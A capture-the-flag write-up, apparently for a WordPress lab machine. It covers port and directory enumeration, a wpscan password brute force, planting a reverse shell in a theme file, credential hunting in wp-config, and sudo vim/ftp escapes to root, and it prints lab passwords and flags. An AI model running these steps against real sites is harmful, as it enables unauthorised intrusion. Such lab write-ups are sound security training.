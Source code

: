 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```

![Pasted image 20240609193857](https://github.com/BGhoster/Write-Ups/assets/43526966/6f731958-4edc-4420-ba9c-9a21f28a5c53)


```
nmap -p- -A 10.10.250.171 -T5
```

![Pasted image 20240609202648](https://github.com/BGhoster/Write-Ups/assets/43526966/3c27e9d4-23d0-4cca-8a2d-ae46d1dea82e)

## Open ports
80: HTTP
4512: ssh
## Usernames/passwords
Hugo
C0ldd:9876543210
Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

![Pasted image 20240609194252](https://github.com/BGhoster/Write-Ups/assets/43526966/1146d672-58b9-4d46-8d99-fb766a8419b0)

## Directories
/wp-content (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]

/wp-includes (Status: 301) [Size: 320] [--> http://10.10.250.171/wp-includes/]

/wp-admin (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]

/hidden (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerability with how XML-RPC is set up. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**

![Pasted image 20240609204402](https://github.com/BGhoster/Write-Ups/assets/43526966/5a0eb63e-28cd-40c2-92e1-150f619f735c)


# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell (MAKE A DOC FOR THIS)
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![Pasted image 20240609210033](https://github.com/BGhoster/Write-Ups/assets/43526966/fad8129f-ab7d-4f2d-96f7-85984efa1728)

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```

![Pasted image 20240609210351](https://github.com/BGhoster/Write-Ups/assets/43526966/d3af7755-0fb4-491c-8d7a-13b603b45e9a)

## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
